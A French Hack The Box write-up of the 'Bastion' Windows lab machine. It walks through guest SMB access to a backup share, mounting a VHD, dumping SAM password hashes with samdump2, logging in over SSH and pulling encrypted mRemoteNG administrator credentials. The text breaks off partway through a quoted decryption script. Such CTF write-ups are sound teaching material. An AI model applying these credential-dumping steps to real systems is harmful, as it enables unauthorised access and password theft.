


# HTB - Bastion - Windows

## Présentation



## Enumération

### Scan Nmap

```bash
nmap -sV -sT -sC -o nmapinitial 10.10.10.134
```

| Options | Description |
| :--- | :--- |
| -sV | Teste les ports ouverts pour déterminer le service en écoute et sa version |
| -sT | Scan TCP Connect\(\) |
| -sC | équivalent de --script=safe,intrusive |
| -o &lt;nom fichier&gt; | La sortie de la commande est écrite dans un fichier |
| 10.10.10.134 | IP de la machine cible |

```bash
┌─[root@kali]─[~/bastion]
└──╼ #nmap -sV -sT -sC -o nmapinitial 10.10.10.134
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-02 12:44 CET
Nmap scan report for 10.10.10.134
Host is up (0.082s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -18m52s, deviation: 34m37s, median: 1m06s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-01-02T12:45:57+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-01-02T11:45:59
|_  start_date: 2021-01-01T18:39:07

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.37 seconds

```

| Ports ouverts | Services |
| :--- | :--- |
| 22 | **SSH** |
| 135 | **RPC** - protocole utilisé dans le modèle client-serveur pour assurer la communication entre le client, le serveur et d’éventuels intermédiaires |
| 139 | Première version de **SMB** qui fonctionnait sur **NETBIOS**. Fonctionne uniquement pour les ordinateurs d'un même réseau. |
| 445 | Version plus récente de **SMB** \(post Windows 2000\) fonctionnant sur la pile **TCP**. L'utilisation de **TCP** permet à **SMB** de fonctionner  par Internet. |

## User Flag

### SMB Enumeration

#### smbmap

```bash
┌─[root@kali]─[~/bastion]
└──╼ #smbmap -H 10.10.10.134
[!] Authentication error on 10.10.10.134
```

**smbmap** ne donne rien il nous renvois une session NULL.  
Essayons maintenant de nous connecter avec un utilisateur invalide.

```bash
┌─[root@kali]─[~/bastion]
└──╼ #smbmap -u userinvalide -H 10.10.10.134
[+] Guest session       IP: 10.10.10.134:445    Name: 10.10.10.134
[\] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\DCMYGNGTVS, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

On peut voir que le partage _Backups_ est accessible en lecture/écriture même avec un utilisateur invalide.

#### smbclient

Voyons ce que nous avons dans ce partage avec smbclient.

```bash
┌─[root@kali]─[~/bastion]
└──╼ #smbclient -N //10.10.10.134/Backups
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jan  2 13:51:56 2021
  ..                                  D        0  Sat Jan  2 13:51:56 2021
  DCMYGNGTVS                          D        0  Sat Jan  2 13:51:56 2021
  note.txt                           AR      116  Tue Apr 16 12:10:09 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 13:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 13:44:02 2019

                7735807 blocks of size 4096. 2759708 blocks available
smb: \> get note.txt
getting file \note.txt of size 116 as note.txt (0,4 KiloBytes/sec) (average 0,4  
KiloBytes/sec)
smb: \> cd WindowsImageBackup\
smb: \WindowsImageBackup\> ls
  .                                  Dn        0  Fri Feb 22 13:44:02 2019
  ..                                 Dn        0  Fri Feb 22 13:44:02 2019
  L4mpje-PC                          Dn        0  Fri Feb 22 13:45:32 2019

                7735807 blocks of size 4096. 2759708 blocks available
smb: \WindowsImageBackup\> cd L4mpje-PC\
smb: \WindowsImageBackup\L4mpje-PC\> ls
  .                                  Dn        0  Fri Feb 22 13:45:32 2019
  ..                                 Dn        0  Fri Feb 22 13:45:32 2019
  Backup 2019-02-22 124351           Dn        0  Fri Feb 22 13:45:32 2019
  Catalog                            Dn        0  Fri Feb 22 13:45:32 2019
  MediaId                            An       16  Fri Feb 22 13:44:02 2019
  SPPMetadataCache                   Dn        0  Fri Feb 22 13:45:32 2019

                7735807 blocks of size 4096. 2759708 blocks available
smb: \WindowsImageBackup\L4mpje-PC\>
```

Nous avons un fichier "**note.txt**" que nous récupérons sur notre machine grâce à la commande **get**, on retourne sur notre machine et on regarde se qu'il contient :

```bash
┌─[root@kali]─[~/bastion]
└──╼ #cat note.txt

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.

```

Ensuite nous nous déplaçons dans le sous-dossier "**WindowsImageBackup\**" puis dans "**L4mpje-PC\**"  
On y voit un dossier "**Backup 2019-02-22 124351**" allons voir dedans :

```bash
smb: \WindowsImageBackup\L4mpje-PC\> cd "Backup 2019-02-22 124351\"
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> ls
  .                                  Dn        0  Fri Feb 22 13:45:32 2019
  ..                                 Dn        0  Fri Feb 22 13:45:32 2019
  9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd     An 37761024  Fri Feb 22 13:44:03 2019
  9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd     An 5418299392  Fri Feb 22 13:45:32 2019
  BackupSpecs.xml                    An     1186  Fri Feb 22 13:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml     An     1078  Fri Feb 22 13:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml     An     8930  Fri Feb 22 13:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml     An     6542  Fri Feb 22 13:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml     An     2894  Fri Feb 22 13:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml     An     1488  Fri Feb 22 13:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml     An     1484  Fri Feb 22 13:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml     An     3844  Fri Feb 22 13:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml     An     3988  Fri Feb 22 13:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml     An     7110  Fri Feb 22 13:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml     An  2374620  Fri Feb 22 13:45:32 2019

                7735807 blocks of size 4096. 2759708 blocks available

```

_**Ne pas oublier les guillemets car il y a des espaces dans le nom du dossier.**_  
  
Il y à plein de choses qui peuvent êtres intéressantes dedans comme les **fichiers VHD** et le fichier **BackupSpecs.xml**  
  
On récupère le fichier XML avec _**get**_, pour les fichiers VHD on pourrait les télécharger localement mais la note nous informe qu'il  n'est pas conseillé de le faire donc nous allons monter le fichiers VHD directement depuis le partage SMB.

```bash
┌─[root@kali]─[~/bastion]
└──╼ #cat BackupSpecs.xml
<BackupSpecs><FileSpecs><Volume Name="\\?\Volume{9b9cfbc3-369e-11e9-a17c-806e6f6e6963}\" AccessPath="" OriginalAccessPath="" Label="" OriginalLabel="" ><FileSpec FilePath="\\?\Volume{9b9cfbc3-369e-11e9-a17c-806e6f6e6963}\" FileName="*" IsRecursive="true" IsInclude="true" /></Volume><Volume Name="\\?\Volume{9b9cfbc4-369e-11e9-a17c-806e6f6e6963}\" AccessPath="C:" OriginalAccessPath="C:" Label="" OriginalLabel="" ><FileSpec FilePath="C:\" FileName="*" IsRecursive="true" IsInclude="true" /></Volume></FileSpecs><SystemState IsPresent="false" /><AllCritical IsPresent="false" /></BackupSpecs>
```

Le fichier **BackupSpecs.xml** présente les deux volumes présents dans le FTP :  
-  **9b9cfbc3–369e-11e9-a17c-806e6f6e6963**  
-  **9b9cfbc3–369e-11e9-a17c-806e6f6e6963**

### Montage SMB

Tout d'abord il faut crée un dossier dans le répertoire **/mnt/** :

```bash
┌─[root@kali]─[~/bastion]
└──╼ #mkdir /mnt/bastion
```

```bash
┌─[✗]─[root@kali]─[~/bastion]
└──╼ #mount -t cifs //10.10.10.134/Backups/WindowsImageBackup/L4mpje-PC  /mnt/bastion/ -o user=anonymous
🔐 Password for anonymous@//10.10.10.134/Backups/WindowsImageBackup/L4mpje-PC:  ****
```

| Options | Description |
| :--- | :--- |
| -t cifs //10.10.10.134/Backups/WindowsImageBackup/L4mpje-PC | Permet de spécifier le type de système de fichier et sa localisation. |
| /mnt/bastion | Emplacement de ma machine sur lequel je souhaite attachée le lecteur. Ici le dossier que j'ai crée précédemment |
| -o | Utilisée pour définir les options de connexion. |

```bash
┌─[root@kali]─[~/bastion]
└──╼ #ls /mnt/bastion/
'Backup 2019-02-22 124351'   Catalog   MediaId   SPPMetadataCache
```

### Montage VHD

Crée un répertoire :

```bash
┌─[✗]─[root@kali]─[~]
└──╼ #mkdir /mnt/vhd
```

Chargement du module **nbd** \(**Network Block Device**\). **Nbd** est un module et un protocole qui permet de faire passer le contenu d'un périphérique block dans une communication TCP.

```bash
┌─[root@kali]─[~/bastion]
└──╼ #modprobe nbd
```

```bash
┌─[✗]─[root@kali]─[~/bastion]
└──╼ #qemu-nbd -r -c /dev/nbd0 "/mnt/bastion/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd"
┌─[root@kali]─[~/bastion]
└──╼ #mount -r /dev/nbd0p1 /mnt/vhd/
```

### 

Maintenant si on regarde dans le dossier **/mnt/vhd**, on y découvre le contenu du volume  **9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd**

```bash
┌─[root@kali]─[~]
└──╼ #cd /mnt/vhd/
┌─[root@kali]─[/mnt/vhd]
└──╼ #ls -la
total 2096745
drwxrwxrwx 1 root root      12288 22 févr.  2019  .
drwxr-xr-x 5 root root       4096  2 janv. 21:04  ..
drwxrwxrwx 1 root root          0 22 févr.  2019 '$Recycle.Bin'
-rwxrwxrwx 1 root root         24 10 juin   2009  autoexec.bat
-rwxrwxrwx 1 root root         10 10 juin   2009  config.sys
lrwxrwxrwx 2 root root         14 14 juil.  2009 'Documents and Settings' -> /mn                                                                                                                                   t/vhd/Users
-rwxrwxrwx 1 root root 2147016704 22 févr.  2019  pagefile.sys
drwxrwxrwx 1 root root          0 14 juil.  2009  PerfLogs
drwxrwxrwx 1 root root       4096 14 juil.  2009  ProgramData
drwxrwxrwx 1 root root       4096 12 avril  2011 'Program Files'
drwxrwxrwx 1 root root          0 22 févr.  2019  Recovery
drwxrwxrwx 1 root root       4096 22 févr.  2019 'System Volume Information'
drwxrwxrwx 1 root root       4096 22 févr.  2019  Users
drwxrwxrwx 1 root root      16384 22 févr.  2019  Windows

```

### Hash mot de passe base SAM

Il faut rechercher dans le dossier **/User/** pour voir sil il y a un "user flag" mais je n'ai rien trouvée donc j'ai continuer dans le dossier **/Windows/System32/config**

```bash
┌─[root@kali]─[/mnt/vhd]
└──╼ #cd Windows/System32/config/
┌─[root@kali]─[/mnt/vhd/Windows/System32/config]
└──╼ #ls -la
total 74740
drwxrwxrwx 1 root root    12288 22 févr.  2019 .
drwxrwxrwx 1 root root   655360 22 févr.  2019 ..
-rwxrwxrwx 2 root root    28672 22 févr.  2019 BCD-Template
-rwxrwxrwx 2 root root    25600 22 févr.  2019 BCD-Template.LOG
-rwxrwxrwx 2 root root 30932992 22 févr.  2019 COMPONENTS
-rwxrwxrwx 2 root root  1048576 22 févr.  2019 COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.0.regtrans-ms
-rwxrwxrwx 2 root root  1048576 22 févr.  2019 COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.1.regtrans-ms
-rwxrwxrwx 2 root root  1048576 22 févr.  2019 COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.2.regtrans-ms
-rwxrwxrwx 2 root root    65536 22 févr.  2019 COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.blf
-rwxrwxrwx 2 root root    65536 22 févr.  2019 COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TM.blf
-rwxrwxrwx 2 root root   524288 22 févr.  2019 COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TMContainer00000000000000000001.regtrans-ms
-rwxrwxrwx 2 root root   524288 14 juil.  2009 COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TMContainer00000000000000000002.regtrans-ms
-rwxrwxrwx 2 root root     1024 12 avril  2011 COMPONENTS.LOG
-rwxrwxrwx 2 root root   262144 22 févr.  2019 COMPONENTS.LOG1
-rwxrwxrwx 2 root root        0 14 juil.  2009 COMPONENTS.LOG2
-rwxrwxrwx 1 root root   262144 22 févr.  2019 DEFAULT
-rwxrwxrwx 1 root root     1024 12 avril  2011 DEFAULT.LOG
-rwxrwxrwx 2 root root    91136 22 févr.  2019 DEFAULT.LOG1
-rwxrwxrwx 2 root root        0 14 juil.  2009 DEFAULT.LOG2
drwxrwxrwx 1 root root        0 14 juil.  2009 Journal
drwxrwxrwx 1 root root        0 22 févr.  2019 RegBack
-rwxrwxrwx 1 root root   262144 22 févr.  2019 SAM
-rwxrwxrwx 1 root root     1024 12 avril  2011 SAM.LOG
-rwxrwxrwx 2 root root    21504 22 févr.  2019 SAM.LOG1
-rwxrwxrwx 2 root root        0 14 juil.  2009 SAM.LOG2
-rwxrwxrwx 1 root root   262144 22 févr.  2019 SECURITY
-rwxrwxrwx 1 root root     1024 12 avril  2011 SECURITY.LOG
-rwxrwxrwx 2 root root    21504 22 févr.  2019 SECURITY.LOG1
-rwxrwxrwx 2 root root        0 14 juil.  2009 SECURITY.LOG2
-rwxrwxrwx 1 root root 24117248 22 févr.  2019 SOFTWARE
-rwxrwxrwx 1 root root     1024 12 avril  2011 SOFTWARE.LOG
-rwxrwxrwx 2 root root   262144 22 févr.  2019 SOFTWARE.LOG1
-rwxrwxrwx 2 root root        0 14 juil.  2009 SOFTWARE.LOG2
-rwxrwxrwx 1 root root  9699328 22 févr.  2019 SYSTEM
-rwxrwxrwx 1 root root     1024 12 avril  2011 SYSTEM.LOG
-rwxrwxrwx 2 root root   262144 22 févr.  2019 SYSTEM.LOG1
-rwxrwxrwx 2 root root        0 14 juil.  2009 SYSTEM.LOG2
drwxrwxrwx 1 root root     4096 20 nov.   2010 systemprofile
drwxrwxrwx 1 root root     4096 22 févr.  2019 TxR

```

#### samdump

Comme on peut le voir, on peut lire les fichiers **SYSTEM** et **SAM**, on peut dump les hashage de mot de passe avec **samdump** ou **secretsdump**, je les ai donc copiées  dans mon répertoire :

```bash
┌─[root@kali]─[/mnt/vhd/Windows/System32/config]
└──╼ #cp ./SYSTEM ./SAM /root/bastion/
```

J'utilise **samdump** :

```bash
┌─[root@kali]─[~/bastion]
└──╼ #samdump2 ./SYSTEM ./SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

On prend le hash du mot de passe de l'utilisateur L4mpje : 

```bash
26112010952d963c8dc4217daec986d9
```

On va sur [crackstation](https://crackstation.net/) : 



On se connecte en SSH sur la cible avec l'utilisateur L4mpje :

```bash
┌─[✗]─[root@kali]─[~/bastion]
└──╼ #ssh l4mpje@10.10.10.134
The authenticity of host '10.10.10.134 (10.10.10.134)' can't be established.
ECDSA key fingerprint is SHA256:ILc1g9UC/7j/5b+vXeQ7TIaXLFddAbttU86ZeiM/bNY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.134' (ECDSA) to the list of known hosts.
l4mpje@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>
l4mpje@BASTION C:\Users\L4mpje>cd Desktop
l4mpje@BASTION C:\Users\L4mpje\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Users\L4mpje\Desktop

22-02-2019  15:27    <DIR>          .
22-02-2019  15:27    <DIR>          ..
23-02-2019  09:07                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  11.303.444.480 bytes free

l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt
9bxxxxxxxxxxxxxxxxxxxxxxxxxxxxcd

```

En fouillant un peu on obtient un fichier **user.txt** avec le **user flag** à l’intérieur

## Escalade de privilèges

En parcourant la machine cible on peut voire dans le dossier "**C:\Users\L4mpje\AppData\Roaming**" que le logiciel **mRemoteNG** est installé.

```bash
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Users\L4mpje\AppData\Roaming

22-02-2019  14:01    <DIR>          .
22-02-2019  14:01    <DIR>          ..
22-02-2019  13:50    <DIR>          Adobe
22-02-2019  14:03    <DIR>          mRemoteNG
               0 File(s)              0 bytes
               4 Dir(s)  11.303.444.480 bytes free

l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming>
```

**mRemoteNG** est un fork de **mRemote** : un gestionnaire de connexions à distance open sources, à onglets, multiprotocoles. **mRemoteNG** ajoute des corrections de bogues et de nouvelles fonctionnalité à **mRemote**.

mRemoteNG enregistre les information de connexion et d'identification dans un fichier appelé **confCons.xml** :

```bash
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming>cd mRemoteNG

l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Users\L4mpje\AppData\Roaming\mRemoteNG

22-02-2019  14:03    <DIR>          .
22-02-2019  14:03    <DIR>          ..
22-02-2019  14:03             6.316 confCons.xml
22-02-2019  14:02             6.194 confCons.xml.20190222-1402277353.backup
22-02-2019  14:02             6.206 confCons.xml.20190222-1402339071.backup
22-02-2019  14:02             6.218 confCons.xml.20190222-1402379227.backup
22-02-2019  14:02             6.231 confCons.xml.20190222-1403070644.backup
22-02-2019  14:03             6.319 confCons.xml.20190222-1403100488.backup
22-02-2019  14:03             6.318 confCons.xml.20190222-1403220026.backup
22-02-2019  14:03             6.315 confCons.xml.20190222-1403261268.backup
22-02-2019  14:03             6.316 confCons.xml.20190222-1403272831.backup
22-02-2019  14:03             6.315 confCons.xml.20190222-1403433299.backup
22-02-2019  14:03             6.316 confCons.xml.20190222-1403486580.backup
22-02-2019  14:03                51 extApps.xml
22-02-2019  14:03             5.217 mRemoteNG.log
22-02-2019  14:03             2.245 pnlLayout.xml
22-02-2019  14:01    <DIR>          Themes
              14 File(s)         76.577 bytes
               3 Dir(s)  11.303.444.480 bytes free

l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>

```

On récupère le fichier avec **scp** :

```bash
┌─[✗]─[root@kali]─[~/bastion]
└──╼ #scp l4mpje@10.10.10.134:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml .
l4mpje@10.10.10.134's password:
confCons.xml                                  100% 6316    74.3KB/s   00:00
┌─[root@kali]─[~/bastion]
└──╼ #file confCons.xml
confCons.xml: XML 1.0 document, ASCII text, with very long lines, with CRLF line
 terminators
```

```markup
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="ZSvKI7j224Gf/twXpaP5G2QFZMLr1iO1f5JKdtIKL6eUg+eWkL5tKO886au0ofFPW0oop8R8ddXKAx4KK7sAk6AA" ConfVersion="2.6">
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
    <Node Name="L4mpje-PC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="8d3579b2-e68e-48c1-8f0f-9ee1347c9128" Username="L4mpje" Domain="" Password="yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB" Hostname="192.168.1.75" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

La première connexion dans le fichier XML est un connexion **RDP** avec l'utilisateur **Administrator.**  
Il y a bel et bien un mot de passe en base64 mais ce dernier est chiffrée, on ne peut rien en faire. Cependant le code de **mRemoteNG** est open-source et si on vérifie le code responsable du cryptage des informations identification, on peut trouver comment les décrypter. 

Il existe un [script](https://github.com/kmahyyg/mremoteng-decrypt/blob/master/mremoteng_decrypt.py) publié écrit par [**kmahyyg**](https://github.com/kmahyyg/) pour le faire, alors je l'ai repris:

```python
#!/usr/bin/env python3

import hashlib
import base64
from Cryptodome.Cipher import AES
import argparse
import sys

def main():
  parser = argparse.ArgumentParser(description="Decrypt mRemoteNG passwords.")
  group = parser.add_mutually_exclusive_group()
  group.add_argument("-f", "--file", help="name of file containing mRemoteNG password")
